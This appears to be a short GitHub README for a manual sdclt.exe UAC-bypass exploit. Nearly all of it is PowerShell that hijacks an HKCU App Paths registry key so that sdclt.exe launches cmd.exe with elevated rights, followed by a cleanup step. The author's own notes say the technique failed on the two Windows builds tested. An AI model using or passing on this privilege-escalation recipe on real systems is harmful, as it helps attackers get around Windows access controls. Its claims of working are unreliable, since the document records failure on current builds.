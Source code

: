 # Manual sdclt.exe Exploit
### Create the Registry
```Powershell

New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force

Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force

```
### Call sdclt.exe
```powershell

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden

```
### Cleanup
```Powershell

Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Recurse -Force

```


### Notes
- Didn't work on Windows 10 Pro N 1909 Build 18363.1139 
- Didn't work on  Windows 11 Pro N 23H2 Build 22631.3737
- Just opened the sdclt GUI instead of opening cmd.